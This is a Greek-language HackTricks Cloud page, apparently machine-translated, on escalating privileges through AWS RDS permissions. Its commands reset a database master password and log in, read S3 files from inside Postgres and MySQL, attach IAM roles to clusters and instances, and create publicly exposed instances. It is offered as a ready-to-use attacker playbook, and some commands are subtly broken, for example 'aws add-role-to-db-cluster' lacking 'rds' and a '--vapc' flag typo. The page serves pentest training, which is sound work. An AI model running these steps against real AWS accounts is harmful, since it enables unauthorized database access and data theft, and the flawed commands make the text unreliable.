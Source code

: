 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Υπηρεσία Σχεσιακής Βάσης Δεδομένων

Για περισσότερες πληροφορίες σχετικά με το RDS ελέγξτε:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Με αυτή την άδεια, ένας επιτιθέμενος μπορεί να **τροποποιήσει τον κωδικό πρόσβασης του κύριου χρήστη**, και την είσοδο μέσα στη βάση δεδομένων:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Θα χρειαστεί να μπορείτε να **επικοινωνήσετε με τη βάση δεδομένων** (συνήθως είναι προσβάσιμες μόνο από εσωτερικά δίκτυα).
{% endhint %}

**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις βάσεις δεδομένων.

### rds-db:connect

Σύμφωνα με τα [**έγγραφα**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), ένας χρήστης με αυτή την άδεια θα μπορούσε να συνδεθεί στην DB instance.

### Κατάχρηση δικαιωμάτων IAM ρόλου RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Αν εκτελώντας **`SELECT datname FROM pg_database;`** βρείτε μια βάση δεδομένων που ονομάζεται **`rdsadmin`**, ξέρετε ότι βρίσκεστε μέσα σε μια **βάση δεδομένων AWS postgresql**.
{% endhint %}

Αρχικά μπορείτε να ελέγξετε αν αυτή η βάση δεδομένων έχει χρησιμοποιηθεί για πρόσβαση σε οποιαδήποτε άλλη υπηρεσία AWS. Μπορείτε να το ελέγξετε αυτό κοιτάζοντας τις εγκατεστημένες επεκτάσεις:
```sql
SELECT * FROM pg_extension;
```
Αν βρείτε κάτι όπως **`aws_s3`** μπορείτε να υποθέσετε ότι αυτή η βάση δεδομένων έχει **κάποιο είδος πρόσβασης στο S3** (υπάρχουν άλλες επεκτάσεις όπως **`aws_ml`** και **`aws_lambda`**).

Επίσης, αν έχετε άδειες να εκτελέσετε **`aws rds describe-db-clusters`** μπορείτε να δείτε εκεί αν το **cluster έχει οποιοδήποτε IAM Role συσχετισμένο** στο πεδίο **`AssociatedRoles`**. Αν υπάρχει, μπορείτε να υποθέσετε ότι η βάση δεδομένων ήταν **έτοιμη να έχει πρόσβαση σε άλλες υπηρεσίες AWS**. Βασισμένοι στο **όνομα του ρόλου** (ή αν μπορείτε να αποκτήσετε τις **άδειες** του ρόλου) θα μπορούσατε να **μαντέψετε** ποια επιπλέον πρόσβαση έχει η βάση δεδομένων.

Τώρα, για να **διαβάσετε ένα αρχείο μέσα σε ένα bucket** πρέπει να γνωρίζετε την πλήρη διαδρομή. Μπορείτε να το διαβάσετε με:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Αν είχατε **raw AWS credentials** θα μπορούσατε επίσης να τα χρησιμοποιήσετε για να αποκτήσετε πρόσβαση σε δεδομένα S3 με:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Η Postgresql **δεν χρειάζεται να αλλάξει καμία μεταβλητή ομάδας παραμέτρων** για να μπορέσει να έχει πρόσβαση στο S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Μέσα σε ένα mysql, αν εκτελέσετε το ερώτημα **`SELECT User, Host FROM mysql.user;`** και υπάρχει ένας χρήστης που ονομάζεται **`rdsadmin`**, μπορείτε να υποθέσετε ότι βρίσκεστε μέσα σε μια **AWS RDS mysql db**.
{% endhint %}

Μέσα στο mysql εκτελέστε **`show variables;`** και αν οι μεταβλητές όπως **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, έχουν τιμές, μπορείτε να υποθέσετε ότι η βάση δεδομένων είναι προετοιμασμένη να έχει πρόσβαση σε δεδομένα S3.

Επίσης, αν έχετε δικαιώματα να εκτελέσετε **`aws rds describe-db-clusters`** μπορείτε να ελέγξετε αν το cluster έχει κάποια **σχετική ρόλο**, που συνήθως σημαίνει πρόσβαση σε υπηρεσίες AWS).

Τώρα, για να **διαβάσετε ένα αρχείο μέσα σε ένα bucket** πρέπει να γνωρίζετε την πλήρη διαδρομή. Μπορείτε να το διαβάσετε με:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Ένας επιτιθέμενος με τις άδειες `rds:AddRoleToDBCluster` και `iam:PassRole` μπορεί να **προσθέσει έναν καθορισμένο ρόλο σε μια υπάρχουσα RDS παρουσία**. Αυτό θα μπορούσε να επιτρέψει στον επιτιθέμενο να **πρόσβαση σε ευαίσθητα δεδομένα** ή να τροποποιήσει τα δεδομένα εντός της παρουσίας.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Πιθανές Επιπτώσεις**: Πρόσβαση σε ευαίσθητα δεδομένα ή μη εξουσιοδοτημένες τροποποιήσεις στα δεδομένα της RDS παρουσίας.\
Σημειώστε ότι ορισμένες βάσεις δεδομένων απαιτούν επιπλέον ρυθμίσεις όπως το Mysql, το οποίο χρειάζεται να καθορίσει το ρόλο ARN στις ομάδες παραμέτρων επίσης.

### `rds:CreateDBInstance`

Μόνο με αυτή την άδεια, ένας επιτιθέμενος θα μπορούσε να δημιουργήσει μια **νέα παρουσία μέσα σε ένα κλάστερ** που ήδη υπάρχει και έχει συνημμένο ένα **IAM ρόλο**. Δεν θα μπορεί να αλλάξει τον κωδικό πρόσβασης του κύριου χρήστη, αλλά μπορεί να είναι σε θέση να εκθέσει τη νέα βάση δεδομένων στο διαδίκτυο:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Δοκιμή
{% endhint %}

Ένας επιτιθέμενος με τις άδειες `rds:CreateDBInstance` και `iam:PassRole` μπορεί **να δημιουργήσει μια νέα RDS instance με έναν καθορισμένο ρόλο συνδεδεμένο**. Ο επιτιθέμενος μπορεί στη συνέχεια **να αποκτήσει πρόσβαση σε ευαίσθητα δεδομένα** ή να τροποποιήσει τα δεδομένα εντός της instance.

{% hint style="warning" %}
Ορισμένες απαιτήσεις του ρόλου/προφίλ instance για να συνδεθούν (από [**εδώ**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Το προφίλ πρέπει να υπάρχει στον λογαριασμό σας.
* Το προφίλ πρέπει να έχει έναν IAM ρόλο που η Amazon EC2 έχει άδειες να αναλάβει.
* Το όνομα του προφίλ instance και το σχετικό όνομα IAM ρόλου πρέπει να ξεκινούν με το πρόθεμα `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Πρόσβαση σε ευαίσθητα δεδομένα ή μη εξουσιοδοτημένες τροποποιήσεις στα δεδομένα της RDS παρουσίας.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Ένας επιτιθέμενος με τις άδειες `rds:AddRoleToDBInstance` και `iam:PassRole` μπορεί **να προσθέσει έναν καθορισμένο ρόλο σε μια υπάρχουσα RDS παρουσία**. Αυτό θα μπορούσε να επιτρέψει στον επιτιθέμενο να **πρόσβαση σε ευαίσθητα δεδομένα** ή να τροποποιήσει τα δεδομένα εντός της παρουσίας.

{% hint style="warning" %}
Η DB παρουσία πρέπει να είναι εκτός ενός κλάσματος για αυτό
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Πρόσβαση σε ευαίσθητα δεδομένα ή μη εξουσιοδοτημένες τροποποιήσεις στα δεδομένα στην RDS instance.

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
